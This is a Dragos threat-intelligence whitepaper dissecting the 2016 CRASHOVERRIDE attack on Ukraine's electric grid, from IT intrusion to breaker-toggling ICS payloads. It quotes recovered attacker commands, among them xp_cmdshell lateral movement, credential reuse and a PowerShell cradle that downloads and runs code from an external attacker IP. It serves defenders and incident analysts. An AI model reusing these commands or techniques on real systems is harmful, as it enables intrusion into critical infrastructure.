







# DRAGCS

# Anatomy of an Attack: Detecting and Defeating CRASHOVERRIDE

Bv Joe Slowik

# Executive Summary

CRASHOVERRIDE' is the first publicly-known malware designed to impact electric grid operations. While some attention has already been paid to CRASHOVERRIDE's ICS-specific effects, the broader scope of the attack – and the necessary prerequisites to its execution – have been woefully unexamined. Reviewing previously unavailable data covering log, forensics, and various incident data, this paper will outline the CRASHOVERIDE attack in its entirety, from breach of the ICS network throuqh delivery and execution of ICS-specific payloads. This examination will show that, aside from the requirement to develop and deploy ICS-targeting software for final effects, CRASHOVERRIDE largely relied upon fairly standard intrusion techniques in order to achieve its results. By understanding this methodology and how these techniques can be monitored and detected, ICS asset owners and defenders can begin identifying detection and visibility gaps to catch such techniques in the future. While CRASHOVERRIDE represents an effectively new application of malware to produce a physical impact, the underlying techniques for intrusion and deployment would be immediately recognizable to a junior penetration tester. In demystifying this attack, defenders and testers can gain greater appreciation for both the existing vulnerabilities within electric grid operations and the steps required to build effective defenses.

Anatomy of an Attack: Detecting and Defeating CRASHOVERRIDE originally presented at Virusbulletin Montreal, Quebec, Canada on October 4th, 2018: 

<sup>1</sup> ESET publicly disclosed CRASHOVERRIDE as "Industroyer" ( in June 2017. In disclosing independent research and analysis on this malware, Dragos used a different name as ESET selected "Industroyer" because of a belief that the malware could be used to impact any industrial process. Dragos' analysis indicates this is not the case, and that CRASHOVERRIDE instead is narrowly focused on electric distribution operations. While ESET's technical analysis is otherwise accurate, the implications behind the "Industroyer" name are misleading and incorrect.

# Contents

| Executive Summary. |
| --- |
| Background |
| Adversary |
| Initial Intrusion. |
| Pivoting to ICS |
| Movement within ICS |
| CRASHOVERRIDE. |
| CRASHOVERRIDE Modules |
| Launcher Module. |
| Brief Review of Grid Operations Protocols |
| IEC-101. |
| IEC-104. |
| IEC-61850 |
| 0РС. |
| Hybrid Payload: OPC + 61850 |
| Wiper Module . |
| Primary Backdoor Module. |
| Impeding Recovery |
| Alternate Backdoor . |
| Context and Mitigation |
| APPENDICES . |
| APPENDIX A – List of Sample Hashes … |
| APPENDIX B – Remote Execution and Survey Script |

# Background

CRASHOVERRIDE itself is a modular malware framework designed to deploy several ICS protocol-specific attack payloads to disrupt electricity distribution.



Fiqure 1: ICS Malware Events

CRASHOVERRIDE was the second publicly-known ICS-targeting malware at the time of its discovery, and the first to target the electric grid. (Figure 1) While previous operations took place against electric grid operations – most notably the 2015 Ukraine outage attributed to SANDWORM – none used malware to deliver semi-autonomously the actual ICS impact. Initial public reporting focused on CRASHOVERRIDE's impact to energy grid operations, which included a relatively brief blackout in a specific Kiev substation in late December 2016. While concerning. CRASHOVERRIDE's ultimate, direct effects were rather unimpressive considering the underlying possibilities of the malware in question. Much more concerning than the immediate impact was the implicit messaging behind the attack: that adversaries were now able and willing to invest time and resources to develop software specifically designed to manipulate electric grid operations.

CRASHOVERRIDE itself is a modular malware framework designed to deploy several ICS protocol-specific attack payloads to disrupt electricity distribution. Given this function, CRASHOVERRIDE must be deployed on an endpoint within the target network capable of directly manipulating or communicating with ICS controlling equipment. Furthermore, CRASHOVERRIDE will only function if supplied with the apropriate, protocol-specific communication module for the equipment in the victim environment.

©2018 Dragos. Inc. All rights reserved. [Protected] Non-confidential content. October 12. 2018 3 Anatomy of an Attack: Detecting and Defeating CRASHOVERRIDE originally presented at Virusbulletin on October 4th, 2018: 



Figure 2: ICS Cyber Kill Chain

CRASHOVERRIDE's implementation and execution is certainly interesting, but the attack itself represents the final action in a complex, multi-staged attack sequence. Paying inordinate attention to CRASHOVERRIDE's final attack sequence ignores multiple stages prior to effect delivery where this assault could have been detected, stopped. or mitigated.

While an understanding of CRASHOVERRIDE's fundamentals is important and will be addressed in this paper, CRASHOVERRIDE is best understood as an event with multiple, inter-dependent stages. As shown in the ICS Cyber Kill Chain (Figure 2). the actual implementation of the CRASHOVERRIDE malware represents the final stage in a complex operation. Understanding how these individual, dependent actions work with each other enables us to form a better understanding of CRASHOVERRIDE as an attack, starting with initial intrusion into the IT network through execution of an ICS-disruptive payload. By taking this approach, ICS owners and operators can identify multiple potential points to detect, mitigate, and defeat a CRASHOVERRIDE-like attack

before reaching the final stages of the ICS Cyber Kill Chain.

# Adversarv

Following analysis of CRASHOVERRIDE in mid-2017, researchers at Dragos identified strong links between the entity executing the CRASHOVERRIDE attack and the SANDWORM APT actor responsible for the 2015 Ukraine outage.2 Subsequent investigation and analysis of confidential information indicated the group responsible for CRASHOVERRIDE, ELECTRUM, may have previously served as the ICS capability development team for SANDWORM, and possibly executed greater operational autonomy with respect to 2016 events in Kiev. (Figure 3) When referring to the adversary executing the CRASHOVERRIDE attack this paper will default to ELECTRUM.

Based on association with SANDWORM, ELECTRUM aligns with Russian strategic interests and is assessed to be a capable, well-resourced adversary. While many aspects of ELECTRUM activity remain uncertain, available information indicates the group possesses specialized development capabilities for ICS-specific software and remains operationally active.



Figure 3: ELECTRUM Activity Group

# Initial Intrusion

Initial infection vectors are often very difficult to identify post-incident when viewing information gleaned through external research. Based on available evidence and subsequent information in this paper, we can identify the initial intrusion to the tarqet environment as possibly emerging from a phishing campaign as

ব

<sup>2 &</sup>quot;Confirmation of a Coordinated Attack on the Ukrainian Power Grid" – SANS Institute (

early as January 2016.3 This earliest possible date places events in Ukraine almost a year prior to the CRASHOVERRIDE impact, and mere weeks following the 2015 Ukrainian power event. Based on analysis of additional recovered artifacts, initial access and entrenchment in the IT network was achieved no later than October 2016.

# Pivoting to ICS

### From recovered log and system data, the adversary initially accessed a device in early December that was either dual-homed on the IT and ICS networks or featured connectivity to the IT network.

Specific information on how ELECTRUM navigated from IT to ICS – a critical inflection point for ICS intrusion events – remains elusive. Based on information presented in the next section, ELECTRUM most likely leveraged credential capture on compromised IT machines to build up a corpus of logons and additional authentication information. From this step, and similar in some respects to the 2015 Ukrainian power outage. ELECTRUM would reuse legitimate credentials to remotely log on to machines within the ICS environment or leverage existing VPN connections.

From recovered log and system data, the adversary initially accessed a device in early December that was either dual-homed on the IT and ICS networks or featured connectivity to the IT network. This compromise pre-dated any other interactions with hosts in the ICS environment. Given this timeline information and initial activity focusing on user account manipulation in early December, ELECTRUM appears to have used this device as its "beach head" within the ICS network.

Startinq on 01 December 2016 at 0128 (unspecified time zone in recovered log data), rapid user account modifications take place on this initial ICS access server focused on two newly-created accounts, "admin" and "система" (System). The accounts are created, assigned to a domain matching local operations, and privileges delegated before event logging on the impacted system is disabled at 0129. The speed of the above operations implies at minimum adversary scripting to make multiple changes within a short span of time.

# Movement within ICS

### ELECTRUM used a variety of native system commands, known utilities, and custom scripts from the core server hosts.

ELECTRUM activity then appears to slow within the network, until a significant and rapid resumption of operations on 12 December 2016. At this point, a new host appears in records. Based on captured artifacts and logs, the device is a Microsoft Windows Server 2003 device running Microsoft SQL Server. Subsequent investigation indicated two additional, similar devices in the environment also accessed by the attacker that featured the same naming schema (e.g., "Device-1", "Device-2", etc.). Within an ICS environment a database server can serve as a type of data historian for process and control system information." In this role, the devices would be expected to have extensive connections to other hosts within the network –

<sup>3 &</sup>quot;New Wave of Cyberattacks Against Ukrainian Power Industry" – ESET (

<sup>4 &</sup>quot;Control System Historian" – ICS-CERT (

including devices either directly involved in critical process operations, or devices directly connected to such hosts.

The first signs of interaction occur at approximately 1300 on 12 December 2016 with several actions that appear to be initial reconnaissance. For example, ELECTRUM begins querying directory info, performing directory listings, and testing network connectivity. These actions continue for approximately two hours, including network connectivity checks to other resources in the victim environment by name. This suqqests the attacker has already performed sufficient reconnaissance of the ICS environment to identify hosts of interest. Unfortunately, corresponding loq data was not available to provide definitive evidence for this assumption.

ELECTRUM then executes a script to test authentication capability to a series of named hosts within the control system network. While the original script was not recovered, in logging data a series of rapid RPC authentication attempts were observed to multiple hosts for user "Administrator" with the same password across over 100 endpoints, specified by host name. The combination of credential specificity and hostname identification strongly indicates significant reconnaissance activity between initial access to the ICS environment in early December and the observed activity in mid-December.

In both this activity and other survey, reconnaissance, and execution items, nearly all commands across all three server hosts are executed in the following manner:

```
EXEC xp_cmdshell <command>
```
The above format cements the theory of the server hosts beinq MS-SQL servers, as "xp_cmdshell" is a MS-SQL command that allows for execution of arbitrary commands.6 From this, ELECTRUM appears to leverage MS-SQL access to the central "pivot" machines to gain code execution throughout the ICS environment. By identifying a means to both occupy a strategic, central node for the victim network and an effective but not easy to identify method for command execution, ELECTRUM placed itself in an excellent position to broaden the scope of the compromise.

In addition to the above, ELECTRUM also attempted to create a link between servers. § While the exact destination server was not recovered in data, the following command is observed:

> "BEGIN EXEC master.dbo.sp addlinkedserver @server = N'" & strLink & "', @srvproduct=N'SQL Server'; EXEC master.dbo.sp addlinkedsrvlogin @rmtsrvname=N'" & strLink & ",@useself=N'False',@rmtuser=N'admin',@rmtpassword='<PASSWORD>'; END;"

<sup>5 &</sup>quot;xp_cmdshell" – Microsoft (

<sup>6 &</sup>quot;Create Linked Servers" - Microsoft (

ELECTRUM used a variety of native system commands, known utilities, and custom scripts from the core server hosts. With the exception of a UPX-packed copy of Mimikatz, ' no actual malware aside from the final CRASHOVERRIDE payload is observed in available data. Examples of commands executed include the following:

```
EXEC xp cmdshell 'net use L: \\<TargetIP>\$C <Password>
/USER:<Domain>\<User>';
EXEC xp cmdshell 'move C:\Delta\m32.txt C:\Delta\m32.exe';
EXEC xp cmdshell 'netstat -an';
```
The "move" command example is interesting, as it reflects behavior seen in multiple instances where ELECTRUM transferred files into the ICS network as ".txt" extensions. After moving the relevant files to victims in the ICS environment, these files were renamed as " exe" items using the move command prior to further operations. While simple and not especially elegant, such a technique can be used to defeat very simple detection methodologies based on extension tracking.

Additionally, scripts and the SysInternals PSExec program are used for additional functions. Of note on PSExec, ELECTRUM renamed the executable "ps.exe" and used an older version than the latest available at the time of the attack. While PSExec 2.2, published July 2016, would be the most-recent version, ELECTRUM instead utilized version 2.11, published April 2014.8

From a script perspective, multiple VBS and BAT scripts were used in the event to facilitate file movement. system survey, and as a wrapper for PowerShell execution. For example, one lengthy script, "remote.vbs", provides the ability to remotely query another system when given an IP, user name, and password. The script itself, provided in Appendix B, is essentially a collection of benign WMI and similar queries to perform system survey information and command execution. Looking at the source code, there are overlaps with multiple publicly-available examples for running WMI queries but no exact matches. Examples of script use for remote process execution include the following:

```
EXEC xp cmdshell 'cscript C:\Delta\remote.vbs /s:<TargetIP> /u:<UserName>
/p:<Password> /t:-r arp -a'
EXEC xp cmdshell 'cscript C:\Delta\remote.vbs /s:<TargetIP> /u:<UserName>
/p:<Password> /t:-r dir C:\intel\';
```
A different example is a simple BAT script used to execute PowerShell:

```
powershell.exe -nop -w hidden -c $1=new-object
net.webclient;$1.proxy=[Net.WebRequest]::GetSystemWebProxy();$1.Proxy.Crede
ntials=[Net.CredentialCache]::DefaultCredentials;IEX
$1.downloadstring('hxxp://188[.]42[.]253[.]43:8801/msupdate');
```
<sup>7</sup> Hashes for all recovered samples and malware are found in Appendix A.

² PSExec – Microsoft Sysinternals (

Aside from being proxy-aware, the above is a simple, unobfuscated PowerShell script to retrieve a file. Unfortunately, at the time of discovery the resource specified was no longer available, so its exact function and purpose are unknown.

Fueling much if not most of this activity was the ability to capture and reuse legitimate network credentials within the victim environment. As stated previously, the adversary used Mimikatz for this purpose. Most interestingly for the assumed level of attack sophistication and the wide variety of options for obfuscating Mimikatz or running it within memory, ELECTRUM simply compiled the publicly-available Mimikatz source code and packed it with UPX. While the tool itself remains effective, from a detection and mitigation standpoint this choice is very curious.

Tying all of the above together, ELECTRUM leveraged a combination of scripts, remote process execution, and credential harvesting to penetrate the environment and "seed" it with a final, malicious payload: CRASHOVERRIDE.

# CRASHOVERRIDE

#### ELECTRUM creates and starts CRASHOVERRIDE as a system service.

After extensive environmental survey activity and verifying access in the 12 to 15 December 2016 time period, ELECTRUM proceeds to push the CRASHOVERRIDE framework to target hosts around 16 December 2016. After verifying connectivity and other operations, on 17 December ELECTRUM begins pushinq out malicious software to hosts connected to the server machines using a BAT file calling two, unrecovered VBS scripts. Although the exact content of the VBS items is unknown, review of the BAT indicates they copy files to remote hosts and then verify via a directory listing. Of note, the BAT contains hard-coded addresses and separate files exist for each of the CRASHOVERRIDE payload modules EXCEPT the "launcher" module. Example lines from "101_copy.bat" and "104_copy.bat" include the following:

```
cscript C:\Backinfo\ufn.vbs <TargetIP> "C:\Backinfo\ImapiService.exe"
"C:\Delta\svchost.exe"
cscript C:\Backinfo\ufn.vbs <TarqetIP> "C:\Backinfo\101.dll"
"C:\Delta\101.dll"
cscript C:\Backinfo\ufn.vbs <TargetIP> "C:\Backinfo\139.ini"
"C:\Delta\101.ini" 
cscript C:\Backinfo\ufn.vbs <TargetIP> "C:\Backinfo\haslo.dat"
"C:\Delta\haslo.dat" 
cscript C:\Backinfo\sqlc.vbs "<TargetIP>" "-c" "dir C:\Delta\"
cscript C:\Backinfo\ufn.vbs <TargetIP> "C:\Backinfo\ImapiService.exe"
"C:\Delta\svchost.exe" 
cscript C:\Backinfo\ufn.vbs <TargetIP> "C:\Backinfo\104.dll"
"C:\Delta\104.dll"  
cscript C:\Backinfo\ufn.vbs <TargetIP> "C:\Backinfo\140.ini"
"C:\Delta\104.ini" 
cscript C:\Backinfo\ufn.vbs <TargetIP> "C:\Backinfo\haslo.dat"
"C:\Delta\haslo.dat" 
cscript C:\Backinfo\sqlc.vbs "<TargetIP>" "-c" "dir C:\Delta\"
```
Review of the individual modules will follow below. At a high level, CRASHOVERRIDE itself consists of at least three pieces (and in most cases, four): a launcher executable; an ICS protocol-specific payload module in DLL form; a wiper payload module, also in DLL form; and a configuration file for most of the effects payloads.

Of note, the above scripts do not include copying of the CRASHOVERRIDE launcher module. Artifacts relating to this event were not available but given past observed activity likely options for moving this module to target devices would be the NET USE command or similar activity. The most likely reason for separating these actions is target specificity: while the CRASHOVERRIDE launcher module is common across all attack types, specific payload modules are required for different target devices. By copying the "core" component first along with other operations, ELECTRUM could conduct appropriate surveillance to determine what ICS targets link to victim hosts, and thus select the appropriate ICS effects payload module for deplovment.

Once copied over, ELECTRUM creates and starts CRASHOVERRIDE as a system service in all observed cases except in the standalone OPC module. ELECTRUM uses the "remote.vbs" script, described above, to call "sc confiq" and related commands to start services on remote systems. For example:

```
EXEC xp cmdshell 'cscript C:\Delta\remote.vbs /s:<TarqetIP>
/u:<Host/Domain>\<User> /p:<Password> /t:-c sc config imapiservice binPath=
"C:\Intel\imapi.exe C:\Intel\ imapi.dll i.ini" start= auto';
```
Separate commands are issued to start the service, which will also start on system boot. The "binPath" setting indicates the calling convention for CRASHOVERRIDE:



Figure 4: Launcher Timing Function

CoreExecutable WorkingDirectory PayloadModule ConfiqurationFile

While the service is manually started and set to auto-start on boot, actual execution will wait due to a timing function within the binary set to a hardcoded value. The specific coding routine is shown in Figure 4 and works to set a "trigger event" for actual payload execution and to coordinate execution across multiple installations or victim hosts.

One item of immediate interest in analyzing available data: ELECTRUM actions copying CRASHOVERRIDE payloads to hosts and executing them as services did not rely on a reported custom backdoor identified in the attack.9 While this software was recovered backdoor from

compromised hosts and existed within the environment, all identified data from recovered log and

<sup>9</sup> See ESET's "WIN32/Industrover: A New Threat for Industrial Control Systems", section "Main Backdoor" (

forensics information indicates that native system commands combined with credential reuse were used to deploy and execute ICS impact packages – with no indications of custom malware used (or needed) to produce this effect. While it is possible that evidence exists for the custom backdoor use outside of what was available for this analysis, a review of operations indicates such malware was completely unnecessary to achieve the desired effect.

Before proceeding with further information on the attack, a review of the specific CRASHOVERRIDE components is necessary.

### CRASHOVERRIDE Modules

CRASHOVERRIDE is a modular framework consisting of multiple, dependent parts. Displayed in Figure 5, The "launcher" module serves as the base for subsequent operations and provides the framework for subsequent effects modules to execute. Each effects module is specially purposed for either a specific ICS communication protocol or the general "wiping" module. Overall functionality for an ICS attack entails the launcher module calling the exported "Crash" function from a payload DLL specified when launched, using a confiquration file to determine targets (depending on payload), and then automatically calling the wiper component – also a DLL exporting "Crash" – after a cool-down period.



### Launcher Module

All recovered launcher modules feature relatively simplistic functionality. At a high level, they are designed as service executables that

Figure 5: CRASHOVERRIDE Program Flow

call the "Crash" export for the provided DLL based on the calling parameters documented previously. Of interest, analyzed launcher samples contain several hardcoded parameters, including service name for the created service (examples include "defragsvo" and "imapiservice") and execution times for payload after service start. Examples of execution times identified include:

> December 17, 2016 22:27 UTC December 20, 2016 06:30 UTC

After reaching the hard-coded time value, the service hands off execution to the relevant payload or effects DLL to beqin producing the intended ICS impact. Two hours after initial attack execution, the Launcher then moves execution to the destructive or "wiper" module, detailed below.

©2018 Draqos, Inc. All rights reserved. [Protected] Non-confidential content. October 12, 2018 10 Anatomy of an Attack: Detecting and Defeating CRASHOVERRIDE originally presented at Virusbulletin on October 4th, 2018: 

### Brief Review of Grid Operations Protocols

Electric distribution operations leverage supervisory control and data acquisition (SCADA) systems to manage arid operations across geographically distributed areas. Facilitating this activity are specific protocols designed to communicate with equipment from centralized operations centers. Protocols are often vendor- or region-specific. For example, IEC-101 and IEC-104, both used in CRASHOVERRIDE, are generally used only in Europe and parts of the Middle East and Asia. North American operations typically rely on Distributed Network Protocol 3 (DNP3) for the same functionality. While all provide the same base-level capabilities, their implementations are obviously somewhat different. meaning that ICS communications must be designed for the specific grid operations implementation at



Figure 6: CRASHOVERRIDE Protocols in Context

play. Figure 6 provides an overview of how various protocols "flow" through a simplistic grid operations network design, highlighting the four protocols used in CRASHOVERRIDE: IEC-101, IEC-104, IEC-61850, and OPC DA. Additional information on grid operations and functionality can be found in the Dragos CRASHOVERRIDE whitepaper.10

### IEC-101

IEC-101 is a grid operations protocol mostly found in Europe as well as parts of Asia and the Middle East. Unlike the rest of the protocols leveraged in CRASHOVERRIDE, IEC-101 uses serial communications – instead of TCP/IP – to control and communicate with equipment. The IEC-101 DLL – in all recovered cases creatively named "101.dll" – requires a configuration file specifying Information Object Address (IOA) values. Ultimately, the module is simply designed to change the state of IOAs to switch physical breaker status from closed to open, or vice versa.

<sup>10 &</sup>quot;CRASHOVERRIDE: Analysis of the Threat to Electric Grid Operations" – Dragos (

#### IEC-104

IEC-104 is in many respects the same as IEC-101, except communications take place over TCP/IP. As a result, the configuration file for IEC-104 payloads requires a target IP address, with the attack package focused on the same open/closed effect as seen in IEC-101. Shown in Figure 7, the IEC-104 module execution flow is quite straightforward: the launcher calls the exported "Crash" function from the IEC-104 DLL; a client thread is created; depending on configuration a new communication process is started or an existing IEC-104 communications process is replaced; a socket is formed to controlled devices to beqin sending traffic; traffic is recorded to a log file. Once this routine is complete, execution is handed back to the launcher to await the countdown triggering the destructive module.



#### IEC-61850

| טטובשדשט |  |  |  |  |
| --- | --- | --- | --- | --- |
| 00402430 50 |  | push | esi |  |
| 00402A31 6A 69 |  | push | (ર) | : loThreadId |
| 00402A33 6A રી રો |  | push | (5) | dwCreationFlags |
| 00402A35 68 | 58 E9 41 00 | push | offset al ini | : "i.ini" |
| 00402A3A 68 | 50 26 40 00 | push |  | offset StartAddress ; lpStartAddress |
| 00402A3F 6A 00 |  | push | રા | : dwStackSize |
| 00402A41 6A QB |  | push | (5) | : loThreadAttributes |
| 00402A43 FF | 15 20 40 41 00 | call | ds:CreateThread |  |
| 00402A49 8B FB |  | mov | esi, eax |  |
| 00402A4B 6A 02 |  | push | 2 | : nPriority |
| 00402A4D 56 |  | push | esi | : hThread |
| 00402A4E FF 15 34 40 41 00 |  | call | ds:SetThreadPriority |  |
| 00402A54 6A FF |  | push | OFFFFFFFFF | : dwMilliseconds |
| 00402A56 56 |  | push | esi | : hHandle |
| 00402A57 FF 15 0C 40 41 00 |  | call | ds:WaitForSingleObject |  |
| 00402A5D 5E |  | pop | esi |  |
| 00402A5E C2 10 00 |  | retn | 1 0h |  |
| 00402A5E |  |  | WinMain@16 endp |  |
| 10002A30 55 |  | push | ebp |  |
| 10002A31 8B EC |  | mov | ebp, esp |  |
| 10002A33 56 |  | push | esi |  |
| 10002A34 6A હિ |  | push | રિ | : lpThreadId |
| 10002A36 6A રિ |  | push | રિ | : dwCreationFlags |
| 10002A38 FF | 75 08 | push |  | [ebp+lpParameter] ; lpParameter |
| 10002A3B 68 50 26 00 10 |  | push |  | offset StartAddress ; lpStartAddress |
| 10002A40 6A (ર) રિ |  | push | રી | : dwStackSize |
| 10002A42 6A (ર) રિ |  | push | (5) | : lpThreadAttributes |
| 10002A44 FF | 15 20 40 01 10 | call | ds:CreateThread |  |
| 10002A4A 8B FB |  | mov | esi, eax |  |
| 10002A4C 6A 02 |  | push | 2 | : nPriority |
| 10002A4E 56 |  | push | esi | : hThread |
| 10002A4F FF | 45 34 40 04 10 | call | ds:SetThreadPriority |  |
| 10002A55 6A FF |  | push | OFFFFFFFFF | ; dwMilliseconds |
| 10002A57 56 |  | push | esi | : hHandle |
| 10002A58 FF | 15 0C 40 01 10 | call | ds:WaitForSingleObject |  |
| 10002A5E 33 CB |  | xor | eax, eax |  |
| 10002A60 5E |  | pop | esi |  |
| 10002A61 5D |  | pop | ebp |  |
| 40000020 00 |  |  |  |  |

Figure 9: CRASH Export

IEC-61850 is a standard for substation communications with a global footprint, and with development efforts contributed by ABB.11 As such, this protocol features a much broader adoption than IEC-101 and IEC-104 and is more concerning for operators globally given this larger usage footprint.

Within recovered data, two versions of the IEC-61850 attack module were recovered: an EXE specifying a configuration file, and a DLL using the same "Crash" export functionality as other recovered samples. An examination of the "WinMain" routine for the EXE (Figure 8) and the "Crash" export for the DLL (Figure 9) show initialization to be essentially the same as previous modules, with the exception of the EXE's specification of a configuration file, "i.ini", located in the same directory. As a result, the EXE can be run as a stand-alone executable with no parameters aside from presence of a configuration file (all options are hard-coded),

11 IEC 61850: What You Need to Know About Functionality and Practical Implementation – Schweitzer Engineering Laboratories ( and IEC 61850 Power Utility Automation – ABB (

©2018 Dragos, Inc. All rights reserved. [Protected] Non-confidential content. October 12, 2018 12 Anatomy of an Attack: Detecting and Defeating CRASHOVERRIDE originally presented at Virusbulletin on October 4th, 2018: 

while the DLL requires the launcher with parameters specified.

While a configuration file is specified – simply containing a list of IP addresses, one per line – both types also have functionality to dynamically perform network discovery. This is performed by first enumerating all network adapters on the victim machine, then enumerating all connected IPs to the network interfaces. Based on the network address and broadcast address for connected IPs, the module then attempts to connect to every IP in the subnet via broadcast address. Each successful connection is stored in an internal array matching the format of "i.ini". While effective, this routine represents a very blunt (and exceptionally noisy) mechanism for indiscriminately identifying other hosts within the network.

Actual communications to devices take place via TCP 102, the default listening port for this targeted version of IEC-61850-compliant communication. In this context, it is important to note that actual communications leverage Manufacturing Message Specification (MMS), while IEC-61850 provides the standard for addressing these messages within IEC-61850-1.12 Based on this, the modules then gather and enumerate control points from devices corresponding to switches and breakers within the configuration file, with the ultimate goal of toggling designated control points following enumeration to either OPEN (0) or CLOSE (1) states. This provides effectively similar functionality – in terms of physical impact – as the IEC-101 and -104 modules.

### ОРС

OLE for Process Control (OPC) and specifically the Data Access (DA) standard,13 were targeted by CRASHOVERRIDE's OPC-DA module. The standard is an OPC Foundation specification that "defines how real-time data can be transferred between a data source and a data sink (for example: a PLC and an HMI) without either of them having to know each other's native protocol."14 This module exists as a stand-alone executable. Examining available log and forensics data, the module is called via a remote execution routine with no need for support files, making it distinct from other modules:

> EXEC xp cmdshell 'cscript C:\Delta\remote.vbs /s:<TargetIP> /u:<Host/Domain>\<User> /p:<Password> /t:-r cmd /c start c:\Intel\opc.exe';

Examining the file supports the above conclusion. First, the module appears to reuse source code from a publicly-available OPC client toolkit. 15 Second, no configuration file is necessary or referenced in the code, indicating that the binary should be able to perform some auto-discovery function. The module includes functionality for both local and remote enumeration of OPC server instances, but only local discovery is called. While default credentials appear to be hardcoded for remote access in the MakeRemoteHost function – user "Administrator" and password "I gas@WSX" – the specification still requires a hostname

<sup>12</sup> RFC1006 – IETF (

<sup>13</sup> OLE for Process Control Data Access Automation Interface Standard (

<sup>14</sup> OPC Data Access (OPC DA) Versions and Compatibility – Matrikon (

<sup>15</sup> See 

for the tarqet device, which does not appear to be provided anywhere, and additionally the function is never actually used.

The module is therefore limited to enumerating and interacting with local OPC server instances running on the infected host. Thus, unlike the other CRASHOVERRIDE modules, the OPC module is designed to run on the host providing ICS-related functionality and control, rather than sending messages "downstream" to another device.

From an enumeration perspective, the program attempts to identify local items:

- o ctlSelOn
- o ct|SelOff
- ctlOperOn o
- ct|OperOff 0
